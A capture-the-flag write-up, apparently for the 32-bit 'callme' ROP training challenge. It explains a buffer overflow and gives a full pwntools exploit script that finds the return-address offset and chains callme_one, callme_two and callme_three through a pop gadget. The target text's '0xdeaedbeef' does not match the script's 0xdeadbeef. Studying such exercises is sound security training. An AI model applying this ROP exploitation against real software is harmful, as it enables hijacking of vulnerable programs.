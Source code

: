 # Callme

## Target
call `callme_one`, `callme_two` and `callme_three` in this order with the following arguments: `0xdeaedbeef`, `0xcafebabe` and `0xd00df00d`.

## The vuln
A buffer overflow allows ROPchain creation and execution. By using `ropper` or similar tools is possible to find gadgets which allows to correctly set the arguments and call the functions `callme_one`, `callme_two` and `callme_three` in sequence.

## The script
```python
from pwn import *

#
# Context
#

e = context.binary = ELF('callme32')

#
# Offset
#

io = process(e.path)

io.sendlineafter(b'> ', cyclic(0x200))
io.wait()

core = io.corefile

io.close()
offset = cyclic_find(core.eip.to_bytes(4, "big")[::-1])
info(f'Offset: {offset}')

#
# ROP
#

# Alternative: use "ropper"
CALLME_ONE   = p32(e.plt["callme_one"])
CALLME_TWO   = p32(e.plt["callme_two"])
CALLME_THREE = p32(e.plt["callme_three"])
EXIT         = p32(e.plt["exit"])

BIGPOP = p32(next(e.search(asm('pop esi; pop edi; pop ebp; ret;'))))

SET_PARAMETERS  = b''
SET_PARAMETERS += p32(0xdeadbeef)
SET_PARAMETERS += p32(0xcafebabe)
SET_PARAMETERS += p32(0xd00df00d)

#
# Exploit
#

io = process(e.path)

payload =  b''
payload += b'A' * offset

payload += CALLME_ONE
payload += BIGPOP
payload += SET_PARAMETERS

payload += CALLME_TWO
payload += BIGPOP
payload += SET_PARAMETERS

payload += CALLME_THREE
payload += BIGPOP
payload += SET_PARAMETERS

payload += EXIT
payload += p32(0)

io.sendlineafter(b'> ', payload)

info(io.recvuntil(b'}').decode())
io.close()
```